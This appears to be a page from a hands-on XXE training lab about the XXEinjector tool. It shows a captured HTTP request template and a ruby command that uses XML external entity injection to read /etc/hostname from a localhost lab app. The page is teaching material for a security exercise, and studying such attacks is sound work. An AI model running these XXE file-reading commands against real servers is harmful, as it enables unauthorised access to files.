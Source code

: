 ```yaml
---
title: "XXEinjector"
weight: 30
---
```


{{% notice note %}}
The VM has this tool in the `/home/vagrant/tools/XXEinjector` directory
{{% /notice %}}

Github URL: [https://github.com/enjoiz/XXEinjector](https://github.com/enjoiz/XXEinjector)

After testing it out a bit it seems to only work if the server has the ability to send content that includes new-line characters. Therefore it has limited functionality on our Java app. For the PHP app exercises we do use its ability to auto-encode and decode content.

## Example Usage

This will retrieve the `/etc/hostname` contents

### Contents of /tmp/req.txt

```plaintext
POST /xxe/basic-xxe.do HTTP/1.1
Host: localhost:8085
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/xml;
X-Requested-With: XMLHttpRequest
Content-Length: 2
Origin: http://localhost:8085
DNT: 1
Connection: close
Referer: http://localhost:8085/xxe/basic-xxe.do
Cookie: JSESSIONID=CC2AA66F7CD47E80C5261CB30D20BE84

XXEINJECT
```

### Launching XXEinjector

```bash
ruby XXEinjector.rb --host=127.0.0.1 --httpport=5005 --ftpport=2121 --path=/etc/hostname --file=/tmp/req.txt
```

![](/static/img/xxeinjector_response.png)
